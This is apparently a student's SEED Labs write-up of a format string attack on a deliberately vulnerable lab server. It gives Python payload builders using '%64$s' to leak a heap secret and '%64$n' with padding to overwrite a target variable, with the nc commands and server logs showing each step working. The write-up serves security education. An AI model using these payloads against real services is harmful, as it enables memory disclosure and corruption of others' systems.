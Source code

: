 # Format String Lab

## Introduction

In this week’s lab, our group focused on the Format String Attack exercise from SEED Labs. The primary goal of our work was to demonstrate how unsafe use of format strings (for example, passing user-controlled data directly to `printf`) can be abused to read and write a memory program, potentially enabling arbitrary code execution or privilege escalation.
For this exercise we followed the SEED tutorial and used the provided auxiliary files located in the `category-software/Format_String` directory of the SEED Labs repository on GitHub.
The report that follows documents command-by-command logs, payloads, debugger sessions, and explanations of why each vulnerability works at the OS level.

---

## Setup

We used the command `sudo sysctl -w kernel.randomize_va_space=0` to temporarily disables ASLR (Address Space Layout Randomization), making stack/heap addresses predictable to simplify exploit reproduction.

After that we went to the `Labsetup/server-code` and used these 2 commands

1. `make`
2. `make install`

We wanted compile the code, by executing the commands in the `Makefile`
We finded warning in the process but the SEED Lab said we can ignore that warning by now.

To finish the setup i tested commands:

- `dcbuild`
- `dcup`

To build and start the containers

## Task 1

We sended a string to the server runnning in 32-bit program with the Format String vulnerability with the command `echo hello | nc 10.9.0.5 9090` and then finished the comando by pressing `ctrl + c`

To crash the myprintf() function, we just used `echo "%n" | nc 10.9.0.5 9090`, because the `%n`tells printf to write to a pointer but without an argument, it writes to a random address, causing a crash.

But i could have use `python3 build_string.py` to create a file with the name `badfile`, then i would use the command `cat badfile | nc 10.9.0.5 9090` to have the same results, the myprintf() functio would crash

## Task 2.b

The objetive of this task its print a secret string that lives on the heap.

First i finded the secret message's address in the server log `server-10.9.0.5 | The secret message's address:  0x080b4008`, now i needed that in the Little-Endian format, that i got it by the code the lab disponibilized
```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

# This line shows how to store a 4-byte integer at offset 0
number  = 0xbfffeeee
content[0:4]  =  (number).to_bytes(4,byteorder='little')

# This line shows how to store a 4-byte string at offset 4
content[4:8]  =  ("abcd").encode('latin-1')

# This line shows how to construct a string s with
#   12 of "%.8x", concatenated with a "%n"
s = "%.8x"*12 + "%n"

# The line shows how to store the string s at offset 8
fmt  = (s).encode('latin-1')
content[8:8+len(fmt)] = fmt

# Write the content to badfile
with open('badfile', 'wb') as f:
  f.write(content)
```

*But i modified it a little, to do what i needed*

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

secret_address = 0x080b4008

# (little-endian)
content[0:4] = (secret_address).to_bytes(4, byteorder='little')

# Format String
s = "%64$s"

fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Write the content to stdout (to use with a pipe)
sys.stdout.buffer.write(content)
```

And then we used the comando `python3 2b.py | nc 10.9.0.5 9090`, and got
```terminal
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd0c0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffcfe8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 |@
                 A secret message
server-10.9.0.5 | The target variable's value (after):  0x11223344
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
And here we go, we got the secret message, its "A secret message"

# Task3

We want to remotely change the server’s target variable, it currently holds 0x11223344. By modifying that value we can alter the program’s behavior/control flow.

## Task 3.A

THe objetive its just to change the target variable value, it does not matter the value after.


We used the file `build_string.py` as the base to the code of 3A, at the end it stayed

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_address = 0x080e5068

# (little-endian)
content[0:4] = (target_address).to_bytes(4, byteorder='little')

# First we print some characters, then we use %n
s = "AAAA%64$n" 

fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

sys.stdout.buffer.write(content)
```

We then used that command -> `python3 3A.py | nc 10.9.0.5 9090`
Which ended up to being correct, because we got:
```terminal
server-10.9.0.5 | Got a connection from 10.9.0.1
server-10.9.0.5 | Starting format
server-10.9.0.5 | The input buffer's address:    0xffffd0c0
server-10.9.0.5 | The secret message's address:  0x080b4008
server-10.9.0.5 | The target variable's address: 0x080e5068
server-10.9.0.5 | Waiting for user input ......
server-10.9.0.5 | Received 1500 bytes.
server-10.9.0.5 | Frame Pointer (inside myprintf):      0xffffcfe8
server-10.9.0.5 | The target variable's value (before): 0x11223344
server-10.9.0.5 | hAAAAThe target variable's value (after):  0x00000008
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
The target variable value its cleared different, as it changed to "0x00000008"

## Task 3.B

Now we need to change the target variabel value to specifically "0x5000"

So we just applied some changes to the 3A python file

```python
#!/usr/bin/python3
import sys

# Initialize the content array
N = 1500
content = bytearray(0x0 for i in range(N))

target_address = 0x080e5068

# (little-endian)
content[0:4] = (target_address).to_bytes(4, byteorder='little')

# We want to write 0x5000 = 20480 in decimal
# We already have 4 bytes of the address, so we need 20480 - 4 = 20476 more characters.
target_value = 0x5000  # 20480 em decimal
padding = target_value - 4 

# Construct a format string
# %.20476x prints a number with 20476 characters of padding
# %64$n writes the total number of characters to the address
s = f"%.{padding}x%64$n"

fmt = (s).encode('latin-1')
content[4:4+len(fmt)] = fmt

# Escrever para stdout
sys.stdout.buffer.write(content)
```
And we finish with the command `python3 3B.py | nc 10.9.0.5 9090`, that writes 20476 zeros to reach a total of 20480
4(address) + 20476 (padding) = 20480 (characters) = 0x5000 

```terminal
...00000000000000000000000000000000000000000000000000000000000000000000000000000000000000011223344The target variable's value (after):  0x00005000
server-10.9.0.5 | (^_^)(^_^)  Returned properly (^_^)(^_^)
```
